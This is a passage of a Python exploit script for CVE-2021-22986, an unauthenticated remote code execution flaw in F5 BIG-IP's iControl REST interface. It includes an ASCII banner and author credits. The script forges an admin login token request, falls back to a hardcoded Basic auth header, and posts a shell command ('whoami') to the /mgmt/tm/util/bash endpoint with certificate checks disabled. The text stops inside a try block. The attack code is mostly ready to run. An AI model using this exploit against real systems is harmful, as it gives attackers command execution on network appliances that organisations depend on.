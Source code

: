 ```python
# metasploit Title: F5 BIG-IP 16.0.x - iControl REST Remote Code Execution (Unauthenticated)
# metasploit Author: Al1ex
# Vendor Homepage: https://www.f5.com/products/big-ip-services
# Version: 16.0.x before 16.0.1.1, 15.1.x before 15.1.2.1, 14.1.x before 14.1.4, 13.1.x before 13.1.3.6, and 12.1.x before 12.1.5.3 amd BIG-IQ 7.1.0.x before 7.1.0.3 and 7.0.0.x before 7.0.0.2
# CVE : CVE-2021-22986

import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import sys


def title():
    print('''
      ______ ____    ____  _______       ___     ___    ___    __        ___    ___     ___     ___      __   
     /      |\   \  /   / |   ____|     |__ \   / _ \  |__ \  /_ |      |__ \  |__ \   / _ \   / _ \    / /   
    |  ,----' \   \/   /  |  |__    ______ ) | | | | |    ) |  | |  ______ ) |    ) | | (_) | | (_) |  / /_   
    |  |       \      /   |   __|  |______/ /  | | | |   / /   | | |______/ /    / /   \__, |  > _ <  | '_ \  
    |  `----.   \    /    |  |____       / /_  | |_| |  / /_   | |       / /_   / /_     / /  | (_) | | (_) | 
     \______|    \__/     |_______|     |____|  \___/  |____|  |_|      |____| |____|   /_/    \___/   \___/                                                                                                                                                                             
    
                                Author:Al1ex@Heptagram
                                Github:https://github.com/Al1ex
    ''')   

def metasploit(url):
  target_url = url + '/mgmt/shared/authn/login'
  data = {
    "bigipAuthCookie":"",
    "username":"admin",
    "loginReference":{"link":"/shared/gossip"},
    "userReference":{"link":"https://localhost/mgmt/shared/authz/users/admin"}
  }
  headers = {
    "User-Agent": "hello-world",
    "Content-Type":"application/x-www-form-urlencoded"
  }
  response = requests.post(target_url, headers=headers, json=data, verify=False, timeout=15)
  if "/mgmt/shared/authz/tokens/" not in response.text:
    print('(-) Get token fail !!!')
    print('(*) Tested Method 2:') 
    header_2 = {
        'User-Agent': 'hello-world',
        'Content-Type': 'application/json',
        'X-F5-Auth-Token': '',
        'Authorization': 'Basic YWRtaW46QVNhc1M='
    }
    data_2 = {
      "command": "run", 
      "utilCmdArgs": "-c whoami"
    }
    check_url = url + '/mgmt/tm/util/bash'
    try:
      response2 = requests.post(url=check_url, json=data_2, headers=header_2, verify=False, timeout=20)
```